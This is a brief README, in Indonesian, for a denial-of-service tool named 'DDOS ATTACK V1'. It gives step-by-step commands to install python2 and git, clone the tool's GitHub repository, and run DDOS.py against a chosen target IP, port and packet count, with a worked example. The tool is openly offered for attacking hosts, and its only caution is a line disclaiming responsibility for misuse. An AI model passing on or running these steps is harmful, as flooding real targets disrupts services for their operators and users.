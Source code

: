 # DDOS ATTACK V1👨‍💻
# VERSI 1.0
# DILARANG RECODE TANPA IZIN 
# MAAF NAMA SCRIPT NYA ADA YANG TYPO KARENA SALAH KETIK YANG ASLINYA DDOS-ATTACKV1 JADI DDOS-ATTACKV1- ADA GARIS TENGAHNYA JADI JANGAN SALAH KETIK YA🙏

Cara Penggunaan:

$pkg install python2

$pkg install git


$git clone https://github.com/BagusXyz/DDOS-ATTACKV1-


$cd DDOS-ATTACKV1-


$python2 DDOS.py <ip> <port> <packet>


Contoh:$python2 DDOS.py 123.45.678.99 8080 100

IP target: 123.45.678.99


Port: 8080


Packet: 100
	
Note: jangan salah gunakan tools ini karena kami tidak akan bertanggung jawab!
	
	
	
	
